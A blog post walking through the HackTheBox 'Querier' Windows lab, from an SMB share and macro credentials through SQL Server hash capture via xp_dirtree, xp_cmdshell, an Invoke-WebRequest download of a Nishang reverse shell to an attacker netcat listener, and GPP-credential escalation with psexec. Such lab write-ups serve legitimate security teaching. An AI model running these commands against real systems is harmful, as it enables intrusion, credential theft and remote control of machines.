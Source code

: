 :slug: querier-writeup/
:date: 2019-06-28
:category: attacks
:subtitle: How to solve HTB Querier
:tags: security, htb, pwn, web, windows
:image: cover.png
:alt: New York City Skyline
:description: Querier is a Windows HackTheBox machine with several insecure configurations. This article explain how to use this configurations to gain system access like user without privileges and how to escalate to administrator privileges using some penetration testing tools.
:keywords: HTB, Security, Web, Writeup, Bounty, Windows
:author: Andrés Tirado
:writer: atirado
:name: Andrés Tirado
:about1: Mechatronic Engineer
:about2: Enjoy the Little Things

= Querier Writeup

In my opinion,
link:https://www.hackthebox.eu/home/machines/profile/175[Querier]
is a great box.
We can learn a bit about +Windows+ pentesting,
a widely used operating system.
The challenge begins with a public +SMB+
where we will pass our first level.
Next we will work with +SQL Server+
and we will need to use
a special +SQL+ query to get the user hash.
In the end we will take advantage
an insecure configuration
in +Group Policy Preferences+ of +Windows+
to escalate to administrator privileges.
Now we will see this step by step.


== Scanning Phase

The first thing to do is check the connection
to the machine with a simple +ping+.
We need a stable connection
with the box to make sure that
we won't lose our progress.

.Ping
[source, bash]
----
$ ping 10.10.10.125
----

.IP Querier
image::ip.png[ip]

.Doing ping
image::ping.png[ping]

Next we can use +nmap+ to find open ports in the machine,
a simple port scanning is enough for our purposes.

[source, bash]
----
$ nmap -Pn 10.10.10.125
----

.Port scanning
image::nmap.png[nmap]

We see 4 open ports (+135+, +139+, +445+ and +1433+)
and among these
we found two interesting services,
+microsoft-ds (SMB)+ in port +445+ and
+ms-sql-s+ in port +1433+.
We try to access via SMB and
it shows us a shared folder called `Report` with a `.xlsm` file,
the extension of +Microsoft Excel Document+.

.Public share
image::share.png[share]

Then we open the file with +Microsoft Excel+ and
a warning message appears telling us that
the file contains a suspicious macro,
this is a little hint to next step,
we will check that.

.Macro alert
image::alert.png[alert]

We can explore the macro code in +Microsoft Excel+
using the option +Visual Basic+ in the Developer Tab.
The macro has an insecure configuration
of a connection to +SQL Server+,
the credentials are in plain text and now we can use them.
It's a good example of something
that we should never do.

.Macro code
image::macro.png[macro]

== Getting user

Now we can connect to the other interesting service
that we found: +ms-sql-s+.
We use the module +mssqlclient.py+ of +Impacket+
to do queries to the server interactively
using the credentials found in the last step,
for example a query to know the version of +SQL Server+
like the first testing query.

[source, bash]
----
$ mssqlclient.py -windows-auth QUERIER/reporting:PcwTWTHRwryjc\$c6@10.10.10.125
----

.Mssql conection
image::mssql-conection.png[mssql-conection]

We will use this service to gain system access
like user without privileges.
We mount a +SMB+ server in our machine
to capture the authentication of any Windows user,
in this case the user that executes the service +ms-sql-s+.
We should tell it to enter to our share
to capture its +NTLMv2+ hash with an +xp_dirtree+ query.
This stored procedure of +SQL Server+
will visit our +SMB+ share
to display a list of every folder,
every subfolder, and every file.

[source, bash]
----
> EXEC master.sys.xp_dirtree '\\10.10.15.1\querier';
----

[source, bash]
----
$ smbserver.py -smb2support querier Documents/
----

.User hash
image::mssql-hash.png[mssql-hash]

Then we copy the hash to a plain text file and
use +John the Ripper+ with the dictionary +rockyou.txt+
to crack the captured hash.
We need to specify the correct hash format because
+John the Ripper+ occasionally recognizes your hashes as the wrong type.
This is inevitable because
some hashes look identical,
in this case the correct format for +NTLMv2+ is +netntlmv2+.

[source, bash]
----
$ john.exe --wordlist=rockyou.txt --format-netntlmv2 \\
     "\Users\dette\HackTheBox\Querier\hash_mssql-svc.txt"
----

.Runnnig John
image::john.png[john]

Now we can connect to +SQL Server+ as user +mssql-svc+,
we try to execute command +whoami+ but
it response telling us that
component +xp_cmdshell+ is blocked but
since we are the administrator of the service,
we can enable it using a few queries.

[source, bash]
----
$ python mssqlclient.py -windows-auth QUERIER/mssql-svc:corporate568@10.10.10.125
----

.xp_cmdshell disabled
image::user-mssql.png[user-mssql]

[source, bash]
----
> EXEC sp_configure 'show advanced options', 1;
> EXEC sp_configure reconfigure;
> EXEC sp_configure 'xp_cmdshell', 1;
> EXEC sp_configure reconfigure;
> EXEC master.dbo.xp_cmdshell 'whoami';
----

.xp_cmdshell enabled
image::mssql-commands.png[mssql-commands]

As we can execute commands
the reading of the user flag is now possible.

.User flag
image::flag-user.png[flag-user]

== Getting root

This method to execute commands
may be inconvenient to escalate privileges,
then we will be upload a shell to server.
We will use the script +Invoke-PowerShellTcp.ps1+
of +Nishang+ framework.
Before to upload the shell
we add our IP and
some free port to make the connection.

[source, bash]
----
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.1 -Port 30000
----

.Invoke-PowerShellTcp code
image::ip-shell.png[ip-shell]

Then is necessary start an +HTTP server in our machine.
We can do it with +Python3+.

[source, bash]
----
$ python -m http.server
----

.Http server
image::python-server.png[python-server]

To make the server download our file,
we can use +Powershell+ as follows.

[source, bash]
----
> EXEC master.dbo.xp_cmdshell 'powershell.exe \\
       Invoke-WebRequest http://10.10.15.1:8000/Invoke-PowerShellTcp.ps1 \\
       -OutFile c:\Users\mssql-svc\Music\Invoke-PowerShellTcp.ps1';
----

Now to get an interactive shell
we set our machine to listen +port 30000+ and
execute the script in the +HTB+ machine.

[source, bash]
----
$ nc -lvp 30000
----

[source, bash]
----
> EXEC master.dbo.xp_cmdshell 'powershell.exe \\
       c:\Users\mssql-svc\Music\Invoke-PowerShellTcp.ps1';
----

.Interactive shell
image::shell-nc.png[shell-nc]

At this point we use the module +PowerUp.ps1+
from the +PowerSploit+ collection to scan the system
to find the way to escalate privileges.
We can use the same method as in the last step.
We upload the file to server with +Python3+.

To execute the script we need to import it first,
next we can run all checks
with the command +Invoke-AllChecks+.
It will output any identifiable vulnerabilities
along with specifications for any abuse functions.

[source, bash]
----
> Import-Module C:\Users\mssql-svc\Music\PowerUp.ps1
> Invoke-AllChecks
----

.Running PowerUp.ps1
image::powerup.png[powerup]

We can see the Administrator credentials
in plain text in the script output.
The script took advantage
an insecure configuration
in +Group Policy Preferences+ of +Windows+,
it saves credentials with a weak encryption.
It’s time to prove these and
to obtain the root flag.

.Root credentials
image::root-credentials.png[root-credentials]

Finally, we can get an interactive shell
as Administrator with +psxec.py+ from +Impacket+.
With this we can read the root flag.

[source, bash]
----
$ python psexec.py QUERIER/Administrator:MyUnclesAreMarioAndLuigi!!1!@10.10.10.125
----

.Running psexec.py
image::psexec.png[psexec]

Another way to get the root flag
could be to find the file
+C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml+
using a native tool like +findstr+ and
decrypt the password using
the +gpp-decrypt+ tool of +Kali Linux+.

.Encrypted password
image::crypt.png[crypt]

.Decrypted password
image::decrypt.png[decrypt]

In this challenge,
we see some insecure configurations
like saved credentials in plain text in code.
We also learned how to start an +SMB+ server
in our machine to capture hashes and
finally we learned and used some important tools
for pentesting in +Windows+ like
+Impacket+, +Nishang+ and +PowerSploit+.
